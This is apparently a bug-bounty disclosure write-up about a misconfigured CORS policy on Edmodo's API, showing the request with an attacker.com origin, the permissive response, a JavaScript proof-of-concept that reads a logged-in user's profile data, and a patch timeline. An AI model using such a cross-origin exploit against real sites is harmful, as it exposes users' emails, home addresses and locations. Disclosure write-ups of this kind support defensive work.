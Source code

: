 # 🔰 Edmodo Users Private Information Disclosure : CORS Exploitation

###### *Disclosure of Edmodo Users Private Information using mis-configured CORS exploitation*

![Edmodo Users Private Information Disclosure : CORS Exploitation](https://i.imgur.com/tyaOfps.jpg "Edmodo Users Private Information Disclosure : CORS Exploitation")

I hope you read my previous post on "Mis-configured CORS Exploitation".

so let's continue..


## Edmodo CORS Request:

![Edmodo Logo](https://i.imgur.com/cB3V5gM.png "Edmodo Logo")

After updating some information on edmodo, I got a URL that sends a `GET` request along with an `access token` in order to fetch the users private information.
therefore, i changed the `Origin` and confirmed that it is unsafe for CORS or not.

> **Request:**
> ```
> GET /profiles/user_id?param1=&param2=&access_token=eyJ0eXAiOiJKV1QiLC..... HTTP/1.1
> 
> Host: api.edmodo.com
> 
> User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:52.0) Gecko/20100101 Firefox/52.0
> 
> Accept: application/json, text/javascript, */*; q=0.01
> 
> Accept-Language: en-US,en;q=0.5
> 
> Accept-Encoding: gzip, deflate, br
> 
> Referer: https://www.edmodo.com/home
> 
> Origin: https://www.attacker.com
> 
> Connection: keep-alive
> ```

![Edmodo CORS Request](https://i.imgur.com/4n2fSJW.jpg "Edmodo CORS Request")

and the Response was,

> **Response:**
> ```
> HTTP/1.1 200 OK
> 
> Access-Control-Allow-Credentials: true
> 
> Access-Control-Allow-Methods: GET, POST, PUT, DELETE, OPTIONS, PATCH
> 
> Access-Control-Allow-Origin: https://www.attacker.com
> 
> Access-Control-Expose-Headers: Link, X-Total-Count
> 
> Access-Control-Max-Age: 1728000
> 
> Cache-Control: max-age=0, private, must-revalidate
> 
> Content-Type: application/json; charset=utf-8
> 
> Date: Tue, 08 Aug 2017 21:11:39 GMT
> 
> ETag: W/"8907834cb797c5c5c71eb4073ec1234"
> 
> Server: nginx
> 
> Strict-Transport-Security: max-age=16070400; includeSubDomains
> 
> Vary: Accept-Encoding, Origin
> 
> X-RateLimit-Limit: 1000000
> 
> X-RateLimit-Remaining: 999778
> 
> X-Request-Id: ee8aa9fc-7473-4477-913c-1504a556564e
> 
> X-Runtime: 0.203002
> 
> Content-Length: 1315
> 
> Connection: keep-alive
>
> 
>
> [JSON Data : user credentials…]
> ```

![Edmodo CORS Response](https://i.imgur.com/n3dyXfr.png "Edmodo CORS Response")

So, It was mis-configure CORS request, allowed `ACAO: https://www.attacker.com` , `ACAC: true` with `user credentials`.

also here, I noticed that `Access Tokens` are valid for a long period of time (or never expire) and with the help of this `Access Token` i can be able to get the private data of other users. 
(this was another issue, which we will discuss later in another blog)

So now we have our Vulnerable Endpoint: https://api.edmodo.com/profiles/user_id?param1=&param2=&access_token=eyJ0eXAiOiJKV1QiLC.....


## CORS Exploitation :

After creating a CORS exploitation POC, i upload it on my server.

> ```
> function cors() {
> 
> var xhttp = new XMLHttpRequest();
> 
> xhttp.onreadystatechange = function() {
> 
> if (this.readyState == 4 && this.status == 200) {
> 
> document.getElementById("demo").innerHTML = this.responseText;
> 
> }
> 
> };
> 
> xhttp.open("GET", "https://api.edmodo.com/profiles/user_id?param1=&param2=&access_token=eyJ0eXAiOiJKV1QiLC.....", true);
> 
> xhttp.withCredentials; //default:false
> 
> xhttp.send();
> 
> }
> ```


![CORS Exploitation](https://i.imgur.com/6lftD70.png "CORS Exploitation")

Once a logged-in Edmodo user clicks on the Exploit button, their personal information will be disclosed,
like : email address, secondary email address, home address, city, zip code, state, country, latitude, longitude, created date, role, about, etc..

![CORS Exploitation - Disclosed Information](https://i.imgur.com/3gESVLH.png "CORS Exploitation - Disclosed Information")

***

### Timeline:

> Aug 09, 2017 : Reported Date (CORS Exploitation)
> 
> Aug 11, 2017 : Report Triaged
> 
> Sep 24, 2017 : Reported Additional Info. (Read here) - stay tuned… will publish it soon)
> 
> Oct 12, 2017 : Bug Patched [CORS still present ; but restricted the access of getting private information]

<br>

**Happy Hunting…!!! 🔱**

<br>

**Next Post 🔰 :**
